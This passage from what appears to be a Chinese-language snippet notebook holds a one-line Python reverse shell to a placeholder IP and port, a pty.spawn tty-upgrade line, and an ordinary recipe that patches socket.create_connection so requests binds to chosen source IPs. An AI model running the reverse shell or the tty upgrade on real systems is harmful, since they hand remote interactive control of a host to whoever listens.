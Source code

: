 单行版本：

```
IP="x.x.x.x";PORT=6666;import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(( IP , PORT ));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
```

### 获得一个tty

    python -c 'import pty; pty.spawn("/bin/sh")'

----

## 让requests使用多个IP

requests包并没有使用socket.create_connection函数，所以替换socket.create_connection并不够

```python
def function_hook_parameter(oldfunc, parameter_index, parameter_name, parameter_value):
    """
    创造一个wrapper函数，劫持oldfunc传入的第parameter_index名为parameter_name的函数，固定其值为parameter_value; 不影响调用该函数时传入的任何其他参数
    用法： 原函数 = function_hook_parameter(原函数, 从1开始计数的参数所处的位置, 这个参数的名称, 需要替换成的参数值)

    例子： 需要劫持socket.create_connection这个函数，其函数原型如下： 
               create_connection(address, timeout=_GLOBAL_DEFAULT_TIMEOUT, source_address=None)
           需要对其第3个参数source_address固定为value，劫持方法如下
               socket.create_connection = function_hook_parameter(socket.create_connection, 3, "source_address", value)
    """
    real_func = oldfunc
    def newfunc(*args, **kwargs):  # args是参数列表list，kwargs是带有名称keyword的参数dict
        newargs = list(args)
        if len(args) >= parameter_index:  # 如果这个参数被直接传入，那么肯定其前面的参数都是无名称的参数，args的长度肯定长于其所在的位置
            newargs[parameter_index - 1] = parameter_value  # 第3个参数在list的下标是2
        else:  # 如果不是直接传入，那么就在kwargs中 或者传入的可选参数中没有这个参数，直接设置kwargs即可
            kwargs[parameter_name] = parameter_value
        return real_func(*newargs, **kwargs)
    return newfunc


myip = "x.x.x.x" #你需要使用的IP，需要操作系统已经取得这个IP
import socket
socket.create_connection = function_hook_parameter(socket.create_connection, 3, "source_address", (myip, 0))
import requests
bakup_create_connection = requests.packages.urllib3.util.connection.create_connection #备份一份以备后续继续替换
requests.packages.urllib3.util.connection.create_connection = function_hook_parameter(requests.packages.urllib3.util.connection.create_connection, 3, "source_address", (myip, 0))

# 验证是否成功修改源IP
print(requests.get("http://ip.cn").text) #访问网站查看当前使用的公网IP，如果内网你可以自行搭建服务器查看访问日志从而确定IP

# 如果后续还要进行替换，则应该传入bakup_create_connection
mynewip = "x.x.x.y" #另外一个当前操作系统已经取得的IP
requests.packages.urllib3.util.connection.create_connection = function_hook_parameter(bakup_create_connection, 3, "source_address", (mynewip, 0))
```
